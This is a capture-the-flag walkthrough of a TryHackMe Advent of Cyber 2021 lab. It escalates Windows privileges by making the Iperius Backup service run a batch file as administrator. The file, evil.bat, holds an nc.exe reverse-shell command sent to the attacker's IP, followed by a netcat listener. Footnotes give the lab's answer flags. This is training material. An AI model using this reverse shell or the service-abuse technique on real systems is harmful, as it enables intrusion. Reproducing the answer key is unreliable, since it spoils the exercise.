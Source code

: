 # TryHackMe - Advent of Cyber 2021 - Day 13
## The Lost the Plan! (Networking)
> Edward Hartmann
> December 29, 2021

***<u>Refs/Links:</u>***
- [Advent of Cyber 2021 TOC](Advent%20of%20Cyber%20Table%20of%20Contents.md)  
-  Tags[^1]
-  Flag[^2]

[^1]: #privsec #windows 
[^2]: *Question 1:* `pepper`  
					*Question 2:* `10.0.17763 N/A Build 17763`  
					*Question 3:* `IperiusSvc`  
					*Question 4:* `C:\Program Files (x86)\Iperius Backup\IperiusService.exe`  
					*Question 5:* `thegrinch`  
					*Question 6:* `the-grinch-hack\thegrinch`  
					*Question 7:* `THM-736635221`  
					*Question 8:* `jazzercize`  

## TOC
- [Question 1](#Question-1)
- [Question 2](#Question-2)
- [Questions 3-4](#Questions-3-4)
- [Questions 5-6](#Questions-5-6)

## Walkthrough
In this box we are told that the disaster recovery plan, that was locked down to protect its security and confidentiality, has become inaccessible due to a decrease in privileges of McSkidy's account due to Grinch's shenanigans. Can we escalate the privileges back and save the disaster recovery plan?

To start, either use the Attack Box or RDP into the system with the `xfreerdp` utility:

```
xfreerdp /u:mcskidy /p:Password1 /v:<TARGET_IP>
```

The information included in the TryHackMe walkthrough is summarized in the [Windows Privsec](../../../Knowledge%20Base/Vulnerabilities/Privilege%20Escalation%20(privsec).md#Windows) section of this note. 
### Privesc
[Top](#TOC)

We are told first that the *Iperius Backup Service* offers a  potential [Privilege Escalation (privsec)](../../../Knowledge%20Base/Vulnerabilities/Privilege%20Escalation%20(privsec).md#Windows) vector due to its potential to run backup tasks with admin privileges despite the local users privilege level. Open the search bar in the bottom of the screen and search `Iperius` and launch the application. 

Start a new backup tasks by clicking the left-most icon on the menu bar and configure as follows. 

![Creating a Backup Task](AoC-2021_Photos/Day_13/01_AoC-Day-13_12-29-21-Iperius.png)

#### Source

In the `Items` tab on this screen select file icon with a `+` sign and set the path to `C:\Users\McSkidy\Desktop` and click `OK`. 

![Backup Path](AoC-2021_Photos/Day_13/02_AoC_Day_13_12-29-21-Backup-Path.png)

#### Destination

On the `Destinations` tab, select the same folder icon and make the destination the `Docuemnts` folder. 

![Destination Path](AoC-2021_Photos/Day_13/03_AoC_Day_13_12-29-21-Destination.png)

#### Executable

Here comes the exploit. In the `Other Processes` tab we can choose to run a program prior to the backup executes, and it will be ran as administrator. If this file is malicious, the attacker can successfully escalate privileges. 

We are instructed to utilize a `.bat`, which stands for `Batch`, a basic executable in windows similar to `.sh` in *UNIX* systems. This `.bat` file will use another file located in `C:\Users\McSkidy\Downloads\nc.exe`. Launch *notepad* and add the following code. 

```
@echo off 

C:\Users\McSkidy\Downloads\nc.exe <HOST_MACHINE_IP> 1337 -e cmd.exe
```

> You find the attacking IP by running `ip a` and using `eth0` for the Attack Box or `tun0` if you are on a VPN. 

![Editing Evil.bat](AoC-2021_Photos/Day_13/04_AoC_Day_13_12-29-21-Editing-Evil-Bat.png)

Save the file as `evil.bat` on the `Desktop`. Notice the little gear icon in the filename? Windows is telling you this is executable. 

What is happening? This file is calling the `Ncat` utility in our `Downloads` folder, a common tool used by attackers to create a reverse shell. Our code is telling `nc` to connect to our attacking machine IP on port `1337` and run a program wiith `-e`. The program we want ran is `cmd.exe`, the command prompt in Windows. 

#### Staging

On your host, prepare a `nc` listener. The great hing about `nc` is that we can connect `nc` to `nc` using a different set of flags. Run this on your host (the attacking host):

`nc -lvnp 1337`

This is listening, providing verbose output, not resolving domain names, and doing all of it on port `1337`. 

![nc Listening](AoC-2021_Photos/Day_13/06_AoC_Day_13_12-29-21-Listening.png)

Let's verify the payload works first. Double click `evil.bat` to run it and check back on your listening host, you should see a shell. Type `whoami` to confirm you are `mcskidy`. We have not escalated privileges yet, but this confirms that the payload works. Disconnect with <kbd>ctrl</kbd>+<kbd>c</kbd>

![Shell Connected](AoC-2021_Photos/Day_13/07_AoC_Day_13_12-29-21-Payload-Confirmed.png)

Great! That payload works, now we just need to run it as administrator using *Iperius*

#### Exploiting
Now we are ready to stage the exploit. Choose `evil.bat` to run on the `Other processes` tab before the backup. 

![Selecting evil.bat](AoC-2021_Photos/Day_13/05_AoC_Day_13_12-29-21-Selecting-Evil-File.png)

Click `Next`, give the job a name. Restart your listener on the attack box! 

On the main screen, right-click your Evil Backup and select `Run backup as service`. Notice that it is running as the admin user.

> User obscured to save the flag, try harder!

![Running Evil Backup](AoC-2021_Photos/Day_13/09_AoC_Day_13_12-29-21-Running-Evil-Backup.png)

If successful, after about a minute you should get a shell on your listener, and typing `whoami` will return 

![The Grinch Shell](AoC-2021_Photos/Day_13/10_AoC_Day_13_12-29-21-THEGRINCH.png)

Bingo! We have an admin shell on the machine. 
### Question-1
[Top](#TOC)
Now that we have a shell as admin, it is time to gather some information. 

The first question is asking for a username. The command `net users` should give is this info. 

![net users Info](AoC-2021_Photos/Day_13/11_AoC_Day_13_12-29-21-net-users.png)

### Question-2
[Top](#TOC)

How about the OS Version? `systeminfo` will tell us about the machine we are on. We can use the command from the guide in the beginning for some cleaner output. 

```
systeminfo | findstr /B /C:"OS Version"
```

![OS Version](AoC-2021_Photos/Day_13/12_AoC_Day_13_12-29-21-OS-Version.png)

### Questions-3-4
[Top](#TOC)

For questions about the services that are running, we want `wmic service list`. But we have a problem...there is a **huge** list of services. Part of learning to use commands is learning the power of those commands. With a little research (such as [here](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)) you can learn more about the `findstr` command used earlier to find the `OS Name` and `OS Version` and modify it to our needs. 

With `findstr`, we can ignore the case of the string we are searching for with `/i` and use a `regex` search by adding the `/r` flag. The regex we want is `.backup.`. Each `.` stands for a *wildcard* character, meaning all the line needs to contain is `backup` and it will return in the output. 

>Learn more about the `/B` and `/C`commands at the link as well!

It may take a few entries for this question to get the right one because Windows returns notoriously long output...but you'll find it here. 

![wmic Backup Search](AoC-2021_Photos/Day_13/13_AoC_Day_13_12-29-21-wmic-Iperius.png)

You can also identify the path to the service in this image...look closely. 

### Question-4
[Top](#TOC)

Simply type the command `whoami` to identify the user you are currently accessing the machine with. 

![whoami](AoC-2021_Photos/Day_13/14_AoC_Day_13_12-29-21-THEGRINCH.png)

### Questions-5-6
[Top](#TOC)

Finally, we need to find the contents of `flag.txt` and identify information about The Grinch's schedule.  You can find the files in the `Documents` directory of `thegrinch`. Use `cd` and `dirs` to change directories and list the files. The windows CLI command `type` will list the contents of the file for us once you are in the correct directory. Use the following commands. 

```
type flag.txt

type Schedule.txt
```

![Flag and Schedule](AoC-2021_Photos/Day_13/15_AoC_Day_13_12-29-21-Flag-and-Schedule.png)

And there you have it!

***Congratulations on completing this box!***  

See you at the next one &mdash; [Advent of Cyber 3 Day 14](Day%2014%20-%20Advent%20of%20Cyber%202021.md)
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
